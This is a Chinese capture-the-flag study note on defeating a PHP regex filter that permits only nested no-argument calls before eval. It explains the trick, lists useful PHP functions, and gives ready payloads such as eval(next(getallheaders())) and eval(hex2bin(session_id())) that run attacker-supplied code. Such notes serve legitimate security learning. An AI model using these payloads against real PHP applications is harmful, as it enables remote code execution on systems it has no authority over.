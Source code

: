 tags:: CTFWEB/PHP/RCE的WAF绕过

- # 原理
	- 情景
		- 某些题目会使用类似`/[^\W]+\((?R)?\)/`的正则表达式匹配并删除某个字符串中的内容，如果替换结果为`;`则执行原字符串
		- 也就是说，我们可以传入一个类似`aaa(bbb(ccc()));`的字符串并eval
		- 此时我们可以构造特殊的payload进行RCE
	- 比如
		- `pos(localeconv())`的结果是字符串`"."`
		- `var_dump(scandir("."));`可以打印当前文件夹中的内容
		- 我们就可以使用`var_dump(scandir(pos(localeconv())));`通过那个正则的检测并打印当前文件夹的内容
	- RCE
		- 首先想想如何构造任意字符串
			- 可以从headers中拿到：`next(getallheaders())`
				- 这样可以拿到最后一个header字段
				- 如果你想拼运气的话，可以使用array_rand随机拿一个header字段
			- 可以考虑拿GET/POST参数
		- 然后传给system函数即可
- # 常用函数
	- ```
	  scandir 
	  var_dump 
	  show_source 
	  localtime 
	  time 
	  current 
	  chr 
	  pos 
	  end 
	  next 
	  prev 
	  array_reverse 
	  readfile
	  array_flip
	  array_rand
	  array_reverse
	  file_get_contents
	  ```
- # 常见payload
	- ```
	  点
	  pos(localeconv())
	  next(str_split(zend_version()))
	  1
	  end(str_split(hebrevc(crypt(next(hash_algos())))))
	  
	  chr(ord(crypt(serialize(array()))))
	  
	  Ua
	  next(getallheaders())
	  
	  eval
	  eval(implode(reset(get_defined_vars())))
	  eval(next(getallheaders()))
	  eval(hex2bin(session_id())) # 其中session_id由PHPSESSID cookie控制
	  ```
- # 绕过
	- 如果正则支持函数名使用任意字符的话，可以使用PHP的动态函数调用技巧
	- 参考： [[CTFWEB/WP/极客大挑战 2020 Roamphp4-Rceme]]
- # 其他知识点
	- ```
	  readfile()[readgzfile()]
	  读取文件并写入到输出缓冲。
	  highlight_file()[别名：show_source()]
	  语法高亮一个文件
	  scandir()
	  列出指定路径中的文件和目录
	  direname()
	  给出一个包含有指向一个文件的全路径的字符串，本函数返回去掉文件名后的目录名。
	  2/19
	  getcwd()
	  取得当前工作目录。
	  chdir($directory)
	  将 PHP 的当前目录改为 directory。
	  读取环境变量
	  get_defined_vars()
	  此函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义
	  的变量。
	  getenv
	  获取一个环境变量的值
	  localeconv()
	  返回一包含本地数字及货币格式信息的数组,第一个值一直是.
	  phpversion()
	  获取当前的 PHP 版本
	  zend_version()
	  获取当前的 zend 版本（配合 str_split()割出点）
	  会话
	  session_id
	  获取/设置当前会话 ID
	  session_start
	  启动新会话或者重用现有会话
	  ```
-